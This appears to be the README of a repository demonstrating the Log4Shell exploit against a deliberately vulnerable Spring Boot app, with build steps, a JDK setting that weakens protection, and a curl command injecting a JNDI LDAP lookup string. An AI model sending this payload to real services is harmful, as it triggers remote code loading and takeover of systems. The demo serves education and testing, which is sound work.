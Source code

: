 ## Log4Shell Exploit Demo

🛑 _Code in this repo should be used for educational purposes only!_ 🛑  
🛑 _Do not use these attacks against services which are not under your control!_ 🛑

_Please see [references](#References) for initiating repos with Python samples and further information._

## Purpose

This repo mixes code from repos mentioned in the [references](#References) section to facilitate single language and tech stack (Java/Spring) demo of the exploit. To replay the demo, only Java and Maven have to be installed, though an IDE is recommended.

## Prerequisites

* Java 8+ (for Java8u191+ and Java 11.0+ see _Start_ Todos below)
* Maven 3+
* (Opt.) IntelliJ or Eclipse

## Setup

### Install LDAP Ref Lib locally

* Clone https://github.com/mbechler/marshalsec
* Uncomment the `<artifactId>maven-assembly-plugin</artifactId>` in `pom.xml`
* Install library to local Maven Repo with `mvn clean install`

## Run Demo

### Start Web Application with vulnerable Log4j

* In Folder *vulnerable-spring-boot-web-app* 
* Build with `mvn clean install`
* Run `Log4shellApplication`

_Note: With Java 11 or Java8u191+ (for other Java SDKs see [here](https://www.geekyhacker.com/2021/12/11/three-ways-to-patch-log4shell-cve-2021-44228-vulnerability/)), in Run Configuration, Add VM option `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`_

### Start Exploit & LDAP Servers

* In folder *l4sexploit*
* Build with `mvn clean install`
* Run `L4sexploitApplication`

### Start Socketlistener

* In folder *l4sexploit*
* Run `ExploitServer`

### Call Exploit

* Call `curl -A '${jndi:ldap://localhost:1389/a}' http://localhost:9090/`

### References

* Log4Shell-POC: https://github.com/kozmer/log4j-shell-poc
* Web Appication: https://github.com/korteke/log4shell-demo
* LDAP Serialization Hack: https://github.com/mbechler/marshalsec

### To use locally generated marshalsec Maven Artifact

```xml
<dependency>
  <groupId>org.eenterphace.mbechler</groupId>
  <artifactId>marshalsec</artifactId>
  <version>0.0.3-SNAPSHOT</version>
</dependency>
```

### It does not work

* Did you add `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` for newer Java SDKs?
* Did you install the *marshalsec* JAR in your local Maven repo?
* Did you remove/uncomment the assembly Maven plugin when building *marshalsec* JAR?
